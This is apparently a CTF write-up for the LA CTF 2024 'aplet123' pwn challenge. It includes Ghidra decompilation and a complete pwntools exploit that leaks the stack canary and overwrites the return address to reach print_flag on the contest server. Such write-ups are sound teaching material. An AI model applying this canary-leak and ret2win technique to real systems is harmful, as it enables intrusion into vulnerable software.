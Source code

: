 ```yaml
---
title: aplet123
date:  2024-02-25T20:00:00+02:00
description: Writeup for aplet123 [LA CTF 2024]
author: PineBel
tags:
- pwn
draft: false
---
```


## Challenge Description:

bliutech: Can we get ApletGPT?
me: No we have ApletGPT at home.
ApletGPT at home:

## Intuition 

We are given an ELF 64-bit binary with the following protections:
```bash 

$ checksec --file=aplet123
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   49 Symbols        No    0               3               aplet123

```

We can see that it has canary and No PIE, after opening it in Ghidra we can see that we have three options from which we can choose, the only one that actually leaks something is the first option which can be entered if our input has 'i'm' in it. In Ghidra we can also see a print_flag function, so this seems like a ret2win where we first need to leak the canary and then call the print_flag function.



```C
undefined8 main(void)

{
  int iVar1;
  time_t tVar2;
  char *pcVar3;
  long in_FS_OFFSET;
  char local_58 [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  puts("hello");
  while( true ) {
    while( true ) {
      while( true ) {
        gets(local_58);
        pcVar3 = strstr(local_58,"i\'m");
        if (pcVar3 == (char *)0x0) break;
        printf("hi %s, i\'m aplet123\n",pcVar3 + 4);
      }
      iVar1 = strcmp(local_58,"please give me the flag");
      if (iVar1 != 0) break;
      puts("i\'ll consider it");
      sleep(5);
      puts("no");
    }
    iVar1 = strcmp(local_58,"bye");
    if (iVar1 == 0) break;
    iVar1 = rand();
    puts(*(char **)(responses + ((ulong)(long)iVar1 % 0x21) * 8));
  }
  puts("bye");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}

```
The exploit for this challenge is to first leak the canary with the first option and then call the print_flag function. I also leaked the addresses of the print_flag function even though this wasn't necessary because it had No PIE.

### Solution

The solution is pretty straightforward, it's a ret2win with the need to leak the canary. 

```py
from pwn import *

gdbscript = """
b *main
c
"""

#target = gdb.debug("./aplet123",gdbscript=gdbscript)
#target = process("./aplet123")
target = remote("chall.lac.tf",31123)
# this is extra
main_offset = 0x401261
print_flag_offset = 0x4011e6
function_offset = main_offset - print_flag_offset

# ============================= Canary Leak =============================

padding = 69*"A" + "i'm"
#we want to leak the main address so first I'll leak the canary so we can read after the canary what mains address is
target.sendlineafter(b"hello",padding.encode())
target.recvline()
canary = target.recvline()

leaked_canary = ''
for i in range(3,10):
    if (chr(canary[i])!= ','):
        leaked_canary += canary[i].to_bytes().hex()   
    else:
        break 

# format the address
leaked_canary = "".join(reversed([leaked_canary[i:i+2] for i in range(0,len(leaked_canary),2)]))
print(hex(int(leaked_canary,16)))

# ============================= Canary Leak =============================

# No need to leak the main if we have NO pie, I still did it 
# ============================= Main Leak =============================

padding = 100*"A" + "i'm"
target.sendline(padding.encode())
main = target.recvline()

leaked_main = ''
for i in range(3,10):
    if (chr(main[i])!= ','):
        leaked_main += main[i].to_bytes().hex()   
    else:
        break 

# format the address
leaked_main = "".join(reversed([leaked_main[i:i+2] for i in range(0,len(leaked_main),2)]))
print(hex(int(leaked_main,16)))

# ============================= Main Leak =============================

main_address = int(leaked_main,16)
print(main_address,function_offset)
print_flag_address = main_address - function_offset
print(hex(print_flag_address))

# ============================= Create Payload =============================

leaked_canary += "00"
payload = 9*8*b"A" + p64(int(leaked_canary,16)) + 8*b"B" + p64(print_flag_address)
target.sendline(payload)

# gdb.attach(target)
# pause()

target.sendline(b"bye")

# ============================= Create Payload =============================

target.interactive()
```